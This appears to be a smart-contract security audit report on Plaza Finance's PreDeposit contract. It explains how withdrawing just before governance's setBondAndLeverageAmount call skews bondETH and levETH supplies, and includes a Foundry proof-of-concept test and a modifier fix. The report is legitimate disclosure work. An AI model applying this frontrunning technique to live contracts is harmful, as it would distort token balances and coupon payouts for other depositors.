 Glamorous Steel Wren

High

# Wrong modifier on `PreDeposit::setBondAndLeverageAmount` function leads to big differences in user balances

### Summary

`PreDeposit::setBondAndLeverageAmount` function has `checkDepositNotEnded` modifier, which means it can only be called while deposit phase has not ended yet. The problem with this is that users are free to call `PreDeposit::deposit` and `PreDeposit::withdraw` around the time of this function being called by governance, meaning that `setBondAndLeverageAmount` function can be frontrun/backrun by a griefer. 

Consider this scenario:
1. Griefer deposits big amount of reserve tokens while deposit phase is active
2. Regular users deposit while deposit phase is active
3. Governance calls `setBondAndLeverageAmount` function at the end of deposit phase
4. Griefer frontruns the transaction and calls `withdraw`, inputting the same amount that they deposited before
5. Griefer's transaction executes, reducing `PreDeposit` contract's balance of reserve tokens by a lot
6. Governance's transaction executes, setting `bondAmount` and `leverageAmount` to values that were correct before the withdrawal happened, but not correct anymore, because reserve token balance is much smaller now
7. Deposit phase ends and governance is not able to call `setBondAndLeverageAmount` function anymore, due to the modifier mentioned previously
8. Pool gets created
9. Users who deposited in `PreDeposit` claim their tokens
10. New users call `Pool::create` and receive very different amounts of tokens than users who deposited in `PreDeposit`, due to total supplies of `bondETH` and `levETH` being inflated
11. Big differences in `bondETH` balances lead to users receiving different amounts of coupon tokens during distribution, due to `sharesPerToken` being the same for everyone

You can see the scenario described above in the PoC section.

Other scenarios can happen too, such as a late user calling `PreDeposit::deposit` function at the last possible moment, after governance already called `setBondAndLeverageAmount`, but I think one scenario is enough to showcase this issue.

**Additional note:** frontrunning in this scenario doesn't have to be intentional. Same result will be achieved if a regular user decides to withdraw at the same time as governance calls `setBondAndLeverageAmount`. It should not matter whether an attacker or a regular user makes the withdrawal, the issue exists and is possible. Additionally, due to the nature of blockchains, the attacker's transaction can be executed earlier than governance's just by pure luck and that will have consequences as described in this finding report.

### Root Cause

Root cause - wrong modifier on `setBondAndLeverageAmount` function.

https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/PreDeposit.sol#L204

Modifier in question:

```solidity
    modifier checkDepositNotEnded() {
@>      if (block.timestamp >= depositEndTime) revert DepositEnded();
        _;
    }
```

### Internal Pre-conditions

Governance has to call `setBondAndLeverageAmount` function just before the deposit phase ends, which I think is likely, because if they call it earlier, they would have to call it again if any users call `deposit` or `withdraw` during that time.

### External Pre-conditions

None.

### Attack Path

Described in `Summary` section.

### Impact

This issue leads to incorrect total supplies of `bondETH` and `levETH` (unhealthy market state), big differences in user token balances and unfairness during coupon distribution.

### PoC

1. Create a new file in the `test` folder and name it `TestSetBondAndLeverageAmount.t.sol`
2. Paste the code provided below into the file:

<details>
<summary>Code</summary>

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.24;

import "forge-std/Test.sol";

import {Pool} from "../src/Pool.sol";
import {Token} from "./mocks/Token.sol";
import {Utils} from "../src/lib/Utils.sol";
import {BondToken} from "../src/BondToken.sol";
import {PreDeposit} from "../src/PreDeposit.sol";
import {Distributor} from "../src/Distributor.sol";
import {PoolFactory} from "../src/PoolFactory.sol";
import {Deployer} from "../src/utils/Deployer.sol";
import {LeverageToken} from "../src/LeverageToken.sol";
import {UpgradeableBeacon} from "@openzeppelin/contracts/proxy/beacon/UpgradeableBeacon.sol";
import {OwnableUpgradeable} from "@openzeppelin/contracts-upgradeable/access/OwnableUpgradeable.sol";
import {PausableUpgradeable} from "@openzeppelin/contracts-upgradeable/utils/PausableUpgradeable.sol";
import {OracleFeeds} from "../src/OracleFeeds.sol";
import {MockPriceFeed} from "./mocks/MockPriceFeed.sol";

contract TestSetBondAndLeverageAmount is Test {
    PreDeposit public preDeposit;
    Token public reserveToken;
    Token public couponToken;

    address user1 = address(2);
    address user2 = address(3);
    address nonOwner = address(4);

    PoolFactory private poolFactory;
    PoolFactory.PoolParams private params;
    Distributor private distributor;

    address private deployer = address(0x5);
    address private minter = address(0x6);
    address private governance = address(0x7);

    address public constant ethPriceFeed = address(0x71041dddad3595F9CEd3DcCFBe3D1F4b0a16Bb70);

    uint256 constant INITIAL_BALANCE = 1000 ether;
    uint256 constant RESERVE_CAP = 100 ether;
    uint256 constant DEPOSIT_AMOUNT = 10 ether;
    uint256 constant BOND_AMOUNT = 50 ether;
    uint256 constant LEVERAGE_AMOUNT = 50 ether;
    address private oracleFeedsContract;
    MockPriceFeed private mockPriceFeed;
    uint256 private constant CHAINLINK_DECIMAL_PRECISION = 10 ** 8;
    uint8 private constant CHAINLINK_DECIMAL = 8;

    function setUp() public {
        // Set block time to 10 days in the future to avoid block.timestamp to start from 0
        vm.warp(block.timestamp + 10 days);

        vm.startPrank(governance);

        reserveToken = new Token("Wrapped ETH", "WETH", false);
        couponToken = new Token("USDC", "USDC", false);
        vm.stopPrank();

        setUp_PoolFactory();

        vm.startPrank(governance);

        params = PoolFactory.PoolParams({
            fee: 0,
            reserveToken: address(reserveToken),
            couponToken: address(couponToken),
            distributionPeriod: 90 days,
            sharesPerToken: 2 * 10 ** 6,
            feeBeneficiary: address(0)
        });

        preDeposit = PreDeposit(
            Utils.deploy(
                address(new PreDeposit()),
                abi.encodeCall(
                    PreDeposit.initialize,
                    (
                        params,
                        address(poolFactory),
                        block.timestamp,
                        block.timestamp + 7 days,
                        RESERVE_CAP,
                        "",
                        "",
                        "",
                        ""
                    )
                )
            )
        );

        vm.stopPrank();

        vm.startPrank(deployer);

        OracleFeeds(oracleFeedsContract).setPriceFeed(params.reserveToken, address(0), ethPriceFeed, 99 days);

        // Deploy the mock price feed
        mockPriceFeed = new MockPriceFeed();

        // Use vm.etch to deploy the mock contract at the specific address
        bytes memory bytecode = address(mockPriceFeed).code;
        vm.etch(ethPriceFeed, bytecode);

        // Set oracle price
        mockPriceFeed = MockPriceFeed(ethPriceFeed);
        mockPriceFeed.setMockPrice(3000 * int256(CHAINLINK_DECIMAL_PRECISION), uint8(CHAINLINK_DECIMAL));

        vm.stopPrank();

        vm.startPrank(governance);
        poolFactory.grantRole(poolFactory.POOL_ROLE(), governance);
        vm.stopPrank();
    }

    function setUp_PoolFactory() internal {
        vm.startPrank(deployer);

        address contractDeployer = address(new Deployer());
        oracleFeedsContract = address(new OracleFeeds());

        address poolBeacon = address(new UpgradeableBeacon(address(new Pool()), governance));
        address bondBeacon = address(new UpgradeableBeacon(address(new BondToken()), governance));
        address levBeacon = address(new UpgradeableBeacon(address(new LeverageToken()), governance));
        address distributorBeacon = address(new UpgradeableBeacon(address(new Distributor()), governance));

        poolFactory = PoolFactory(
            Utils.deploy(
                address(new PoolFactory()),
                abi.encodeCall(
                    PoolFactory.initialize,
                    (
                        governance,
                        contractDeployer,
                        oracleFeedsContract,
                        poolBeacon,
                        bondBeacon,
                        levBeacon,
                        distributorBeacon
                    )
                )
            )
        );

        vm.stopPrank();
    }

    function testAttackerFrontrunsSetBondAndLeverageAmountCall() public {
        uint256 maliciousUserAmount = 50 ether;
        address maliciousUser = makeAddr("malicious user");
        uint256 regularUserAmount = 1 ether;
        uint256 numberOfRegularUsers = 50;
        address[50] memory users;
        uint256 exampleBondAmount = 1500 ether;
        uint256 exampleLevAmount = 1500 ether;
        Pool.TokenType tokenTypeBond = Pool.TokenType.BOND;
        Pool.TokenType tokenTypeLev = Pool.TokenType.LEVERAGE;
        address[50] memory users2;

        // creating addresses for users
        for (uint256 i = 0; i < numberOfRegularUsers; i++) {
            users[i] = address(uint160(uint256(keccak256(abi.encodePacked(i + 999)))));
            users2[i] = address(uint160(uint256(keccak256(abi.encodePacked(i + 9999)))));
        }

        // malicious user deposits 50 ether
        vm.startPrank(maliciousUser);
        reserveToken.mint(maliciousUser, maliciousUserAmount);
        reserveToken.approve(address(preDeposit), maliciousUserAmount);
        preDeposit.deposit(maliciousUserAmount);
        vm.stopPrank();

        // all users deposit 1 ether each
        for (uint256 i = 0; i < numberOfRegularUsers; i++) {
            vm.startPrank(users[i]);
            reserveToken.mint(users[i], regularUserAmount);
            reserveToken.approve(address(preDeposit), regularUserAmount);
            preDeposit.deposit(regularUserAmount);
            vm.stopPrank();
        }

        vm.warp(block.timestamp + 604784); // 6.999 days pass (almost end of deposit phase)

        vm.startPrank(maliciousUser);
        preDeposit.withdraw(maliciousUserAmount); // malicious user frontruns `setBondAndLeverageAmount` call to decrease reserve token balance
        vm.stopPrank();

        vm.startPrank(governance);
        preDeposit.setBondAndLeverageAmount( // setting both amounts to 1500e18 just before deposit phase ends (governance decides amounts based on reserve token balance)
        exampleBondAmount, exampleLevAmount);

        // now bond/leverage amounts should be 750e18, since malicious user withdrew 50% of reserve token balance, but amounts get set to 1500e18

        vm.warp(block.timestamp + 16); // deposit phase ends

        // governance trying to set amounts after deposit phase ended results in revert
        vm.expectRevert();
        preDeposit.setBondAndLeverageAmount((exampleBondAmount - 750e18), (exampleLevAmount - 750e18));

        // the token amounts are wrong, because they don't match reserve token balance, but pool must be created, because there's no other way to get the user funds out or change the amounts

        poolFactory.grantRole(poolFactory.POOL_ROLE(), address(preDeposit));
        preDeposit.createPool(); // pool gets created, this contract gets minted too big amount of bond/leverage tokens
        address pool = preDeposit.pool();
        poolFactory.grantRole(poolFactory.SECURITY_COUNCIL_ROLE(), address(governance));
        Pool(pool).unpause();
        vm.stopPrank();

        address bondToken = address(Pool(preDeposit.pool()).bondToken());
        address levToken = address(Pool(preDeposit.pool()).lToken());

        // all users claim their tokens
        for (uint256 i = 0; i < numberOfRegularUsers; i++) {
            vm.startPrank(users[i]);
            preDeposit.claim();
            vm.stopPrank();
            console.log("user balance of bond token after claim:", BondToken(bondToken).balanceOf(users[i])); // 30000000000000000000 = 30e18
            console.log("user balance of lev token after claim:", LeverageToken(levToken).balanceOf(users[i])); // 30000000000000000000 = 30e18
        }

        // new users use same amount of reserve tokens as previous users in `PreDeposit` to create bond/lev tokens
        // they all receive very odd amounts that don't match the amounts of users who deposited in `PreDeposit`

        // p.s. if you scroll up and change `exampleBondAmount` and `exampleLevAmount` to 750e18 and run this test again, you will see that the users below get same amounts as previous users and everything is normal

        for (uint256 i = 0; i < numberOfRegularUsers; i++) {
            vm.startPrank(users2[i]);
            reserveToken.mint(users2[i], regularUserAmount);
            reserveToken.approve(pool, regularUserAmount);
            Pool(pool).create(tokenTypeBond, 0.5 ether, 0);
            Pool(pool).create(tokenTypeLev, 0.5 ether, 0);
            vm.stopPrank();
            console.log("user2 balance of bond token after create:", BondToken(bondToken).balanceOf(users2[i]));
            console.log("user2 balance of lev token after create:", LeverageToken(levToken).balanceOf(users2[i]));
        }
    }
}
```

</details>

3. Run the test using this command: `forge test --mt testAttackerFrontrunsSetBondAndLeverageAmountCall -vv`
4. Take a look at the logs shown in the terminal. You will see user balances of tokens who deposited in `PreDeposit` and then after that you will see user balances of tokens who called `Pool::create` after pool was created.
5. As you can see in this example scenario, the balances are obviously very different, and that confirms the issue.

### Mitigation

Simply change the modifier on `setBondAndLeverageAmount` function from `checkDepositNotEnded` to `checkDepositEnded`, to allow governance to call this function after deposit phase has ended and to set the correct values. This will ensure users cannot change the reserve token balance around the time of this function being called.

```diff
function setBondAndLeverageAmount(
        uint256 _bondAmount,
        uint256 _leverageAmount
-   ) external onlyOwner checkDepositNotEnded {
+   ) external onlyOwner checkDepositEnded {
```